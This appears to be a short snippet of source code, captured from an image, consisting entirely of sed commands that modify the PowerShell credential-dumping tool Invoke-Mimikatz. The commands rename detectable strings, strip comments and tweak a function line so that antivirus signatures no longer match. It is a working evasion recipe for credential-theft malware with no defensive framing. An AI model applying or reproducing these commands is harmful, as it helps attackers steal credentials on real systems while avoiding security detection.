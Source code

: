 sed -i -e 's/Invoke-Mimikatz/Invoke-Mimidogz/g' Invoke-Mimikatz.ps1

sed -i -e '/<#/,/#>/c\\' Invoke-Mimikatz.ps1

sed -i -e 's/^[[:space:]]*#.*$//g' Invoke-Mimikatz.ps1

sed -i -e 's/DumpCreds/DumpCred/g' Invoke-Mimikatz.ps1

sed -i -e 's/ArgumentPtr/NotTodayPal/g' Invoke-Mimikatz.ps1

sed -i -e 's/CallDllMainSC1/ThisIsNotTheStringYouAreLookingFor/g' Invoke-Mimikatz.ps1

sed -i -e "s/\-Win32Functions \$Win32Functions$/\-Win32Functions \$Win32Functions #\-/g" Invoke-Mimikatz.ps1
